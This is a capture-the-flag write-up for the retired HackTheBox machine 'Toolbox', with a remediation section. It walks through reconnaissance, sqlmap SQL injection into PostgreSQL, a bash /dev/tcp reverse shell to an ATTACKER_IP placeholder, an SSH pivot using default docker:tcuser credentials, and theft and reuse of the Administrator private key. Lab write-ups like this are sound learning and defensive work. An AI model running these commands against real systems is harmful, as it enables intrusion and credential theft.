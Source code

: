 # Toolbox — SQLi → OS Shell (Postgres) → Container Pivot → Host SSH → Administrator Key → Administrator (Lab)

**Date:** 2025-10-19

---

## TL;DR

Anonymous FTP revealed a `docker-toolbox.exe` artifact and the site `admin.megalogistic.com`. By capturing the admin login request and using `sqlmap` against a PostgreSQL backend, I exploited a SQL injection to obtain an OS shell on the container. From there I recovered the user flag, pivoted to the host using `docker:tcuser` SSH credentials (container gateway), located `C:\Users\Administrator\.ssh\id_rsa`, and used that private key to SSH in as `Administrator`. All testing occurred on a retired HackTheBox VM in an isolated lab; artifacts are sanitized.

---

## Scope & permission

This assessment was performed on a **retired HackTheBox machine** in a lab I control. All commands, artifacts, and outputs in this document are sanitized for public release. **Do not run exploit code or use recovered keys against third‑party or production systems.**

---

## Environment & notable findings

* **Target:** `TARGET_IP` (certificate CN: `admin.megalogistic.com`)
* **Services discovered (sanitized):**

  * FTP (21) — FileZilla ftpd — anonymous FTP allowed (found `docker-toolbox.exe`)
  * HTTPS (443) — Apache/2.4.38 (Debian) — site `admin.megalogistic.com`
  * Windows services observed (SSH for Windows, SMB/RPC ports, WinRM‑like ports) — indicating a mixed/virtualized environment
* **Container evidence:** FTP artifact (`docker-toolbox.exe`) and container IPs observed from shells

---

## Tools used

`nmap`, `ftp` / FTP client, browser + Burp (to capture login POST), `sqlmap`, `nc` (netcat), basic shell utilities (`python3 -c`, `pty`), and `ssh`. Private keys and unredacted logs were retained offline.

---

## Short chain summary

1. `nmap` → discovered anonymous FTP and `docker-toolbox.exe` artifact.
2. Mapped the host to `admin.megalogistic.com` and captured the admin login POST.
3. `sqlmap` → confirmed PostgreSQL SQL injection, enumerated the `public.users` table and obtained a hashed admin password.
4. `sqlmap --os-shell` → spawned an OS shell and obtained a reverse shell back to the attacker.
5. Interactive shell → upgraded to PTY and retrieved `user.txt` from Postgres directories.
6. Identified container networking (e.g., `CONTAINER_IP` 172.17.0.2 and gateway 172.17.0.1).
7. SSH to host as `docker` using known `docker-toolbox` credentials (`docker:tcuser`) → accessed host filesystem (`C:\Users`).
8. Located `C:\Users\Administrator\.ssh\id_rsa`, copied the private key out securely (kept private).
9. `ssh -i id_rsa administrator@TARGET_IP` → authenticated as `Administrator` and captured `root.txt`.

---

## Detailed steps (sanitized, reproducible)

### 1) Port scan

```bash
nmap -p- -sCV -T4 --open -oA recon --stats-every 5s TARGET_IP
```

The scan revealed anonymous FTP, HTTPS (admin portal), and several Windows ports — signalling a mixed or virtualized environment.

### 2) Anonymous FTP & artifact discovery

```text
ftp TARGET_IP
# login: anonymous
# password: (blank)
ls -la
```

**Found:** `docker-toolbox.exe` in the FTP root — a strong hint of Docker tooling and a potential pivot vector.

### 3) Map hostname & capture login

Add an `/etc/hosts` entry so `admin.megalogistic.com` resolves locally:

```bash
echo "TARGET_IP admin.megalogistic.com" | sudo tee -a /etc/hosts
```

Use a browser with Burp Suite to capture the admin login POST request and save it as `login.req` for `sqlmap`.

### 4) SQLi discovery & enumeration with `sqlmap`

Initial discovery and DB enumeration:

```bash
sqlmap -r login.req --batch --dbs -o
```

Sanitized results showed a **PostgreSQL** backend. After enumerating schemas and tables, `public.users` was found and dumped:

```bash
sqlmap -r login.req -D public --tables --batch
sqlmap -r login.req -D public -T users --dump --batch
```

Result: `users` table contained a single row: `username = admin`, `password = <hashed>`.

### 5) `sqlmap` OS shell → reverse shell (lab‑only)

Using `sqlmap`’s interactive OS shell (`--os-shell` or `--os-pwn`) I executed commands to spawn a reverse shell back to the attacker.

On attacker (listener):

```bash
nc -lvnp LPORT
```

From `sqlmap`’s OS shell (lab):

```bash
bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/LPORT 0>&1'
```

After connection:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Result: interactive shell on the database/container host.

### 6) Locate user flag & observe container network

From the shell, I searched typical Postgres paths:

```bash
cd /var/lib/postgresql
ls -la
# found user flag
cat user.txt
```

I inspected networking to determine container and host addresses:

```bash
ifconfig || ip a
# saw container IP (e.g., 172.17.0.2) and gateway 172.17.0.1
```

### 7) Pivot to host via known `docker-toolbox` creds

Documentation/notes that accompanied `docker-toolbox.exe` suggested the credentials `docker:tcuser`.

From a reachable system (able to reach the container gateway):

```bash
ssh docker@172.17.0.1
# password: tcuser
```

This provided SSH access to the host VM as `docker`. Once on the host, I inspected Windows user folders (mounted or accessible via the host filesystem):

```bash
ls /c/Users
ls /c/Users/Administrator/.ssh
# found id_rsa
```

### 8) Retrieve Administrator private key & use it (lab‑only)

I copied `id_rsa` securely to the attacker machine (out of band). Locally, set strict permissions and connect:

```bash
chmod 600 id_rsa
ssh -i id_rsa administrator@TARGET_IP
```

Authentication succeeded and I retrieved `root.txt` from `C:\Users\Administrator\Desktop`.

---

## Impact

Full host compromise: SQL injection → OS command execution on DB/container → pivot to host via Docker/tooling credentials → discovery and reuse of Administrator private key → Administrator remote access. This chain enables data exfiltration, persistence, and lateral movement.

---

## Remediation (prioritized)

1. **Fix SQL injection:** use parameterized queries / prepared statements and validate all input. Disable stacked queries where possible.
2. **Remove or restrict anonymous FTP:** do not expose artifacts such as `docker-toolbox.exe` publicly; monitor FTP uploads and access.
3. **Avoid storing keys in user directories:** adopt proper key management and rotate keys that may have been exposed.
4. **Segregate containers from host management:** do not allow container bridge IPs to grant host access; enforce network isolation and restrict SSH to trusted management networks.
5. **Harden SSH & key usage:** enforce strict permissions, use passphrases for private keys, and log/alert on new key usage.
6. **Monitor for anomalous database activity:** detect unusual queries, exports, or use of automated SQLi tooling.

---

## Appendix / Notes

* All artifacts and commands are **sanitized** and were executed in an isolated lab environment.
* This writeup documents an attack chain intended for defensive awareness and remediation guidance only.
